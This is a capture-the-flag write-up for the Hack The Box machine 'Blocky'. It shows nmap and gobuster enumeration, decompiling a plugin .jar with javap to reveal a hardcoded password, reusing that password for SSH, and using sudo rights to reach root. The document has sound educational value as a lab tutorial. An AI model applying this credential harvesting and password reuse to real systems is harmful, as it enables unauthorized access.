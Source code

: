 <center><h1>Blocky</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>
- Get credentials from a .jar file located in the <b>/plugins</b> directory
- Use the password found to ssh in the system as the user notch
- Run <b>sudo -l</b> to see that we can run commands as sudo
<br><br>

First we start with an nmap scan.
```
# Nmap 7.70 scan initiated Fri May 31 12:13:39 2019 as: nmap -sV -sC -T4 -oN BlockyNmap 10.10.
10.37
Nmap scan report for 10.10.10.37
Host is up (0.036s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 31 12:13:52 2019 -- 1 IP address (1 host up) scanned in 13.20 seconds
```
<br>
So there are a few ports open. FTP wont tell us much since we dont have any credentials to log in with. A simple search will tell you that SSH is not vulnerable. I don't know what sophos is so I am going to explore port 80 first. We are greeted with a wordpress page.

<center><img src="/htb/blocky/home.png"></center>
<br>

I look around and don't find much except for a post made by the user Notch. Next, I decide to run a gobuster
```
gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.37
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/16 15:04:36 Starting gobuster
===============================================================
/wiki (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 301)
/wp-login.php (Status: 200)
/plugins (Status: 301)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-trackback.php (Status: 200)
```
<br>
Navigating to the <b>/plugins</b> directory, you will see two files. Lets download them both to our host

<center><img src="/htb/blocky/files.png"></center>

Both of the files are <b>.jar</b> files which means the contents need to be extracted. The command below will list the files inside the <b>.jar</b> file.

```
jar -tf BlockyCore.jar
```
<b>
we see that it lists a file
```
META-INF/MANIFEST.MF
com/myfirstplugin/BlockyCore.class
```
<br>

Lets extract that specific file.
```
jar xf BlockyCore.jar com/myfirstplugin/BlockyCore.class
```
Now to read the file we need to use the <b>javap</b> command.
```
javap -c com/myfirstplugin/BlockyCore.class
```
<br>
You should get the output below. If you read through the file you should see something like resembles credentials.
```
11: ldc           #18                 // String root <-----User
13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
16: aload_0
17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22 <-----Password
19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
```
<br>
Now first thing I tried was logging into the wordpress site but that didnt work. Next I tried ssh but it didnt work with the user <b>root</b>. I tried to ssh again but this time using the user <b>notch</b> and password <b>8YsqfCTnvxAUeduzjNSXe22</b> and it worked.
```
root@kali: ssh notch@10.10.10.37

The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ECDSA) to the list of known hosts.
notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$
```
<br>
Now if we type <b>sudo -l</b> and enter the same password as before then you will see that we have sudo rights which means we can just grab both the user and root flags. The user flag is located at <b>/home/notch/user.txt</b> and the root is at <b>/root.root.txt</b>
<br><br><br>
